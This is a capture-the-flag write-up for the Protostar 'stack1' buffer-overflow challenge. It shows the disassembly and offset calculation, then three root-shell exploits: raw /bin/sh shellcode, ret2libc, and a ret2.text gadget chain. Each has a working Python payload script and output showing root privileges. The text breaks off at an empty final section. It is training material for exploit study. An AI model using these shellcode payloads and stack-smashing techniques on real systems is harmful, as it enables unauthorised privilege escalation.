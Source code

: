 # stack1

## solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x080483b0]> pdf @main
            ; DATA XREF from entry0 @ 0x80483c7
┌ 115: int main (uint32_t arg_8h, int32_t arg_ch);
│           ; arg uint32_t arg_8h @ ebp+0x8
│           ; arg int32_t arg_ch @ ebp+0xc
│           ; var char *src @ esp+0x4
│           ; var char *dest @ esp+0x1c
│           ; var int32_t var_8h @ esp+0x5c
```

As the contents of `arg_ch` is copied into the `dest` variable, the size of the offset is the
distance from the start of the `dest` buffer to the `var_8h` variable, which we need to modify. 
```
>>> 0x5c - 0x1c
64
```

To solve the challenge, we need to change the `var_8h` variable to `61626364` which corresponds to
`abcd`. 
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print "A"*64+"dcba"')
you have correctly got the variable to the right value
```

## shells

### classic buffer overflow
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
Try again, you got 0x42424242

Program received signal SIGSEGV, Segmentation fault.
0x46464646 in ?? ()
```

Since %eip was overwritten with `46464646` the offset is easily calculated as 80 bytes.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff640 + off + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

```py
import struct

off = 80

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack1    
0x08048547   edi ebp ret
0x08048432   ebx ebp ret
0x08048577   ebx ebp ret
```

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048547)

ret += 'AAAA'                                    # POP
ret += 'AAAA'                                    # POP
ret += struct.pack('I', 0xbffff640 + off + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to libc
...

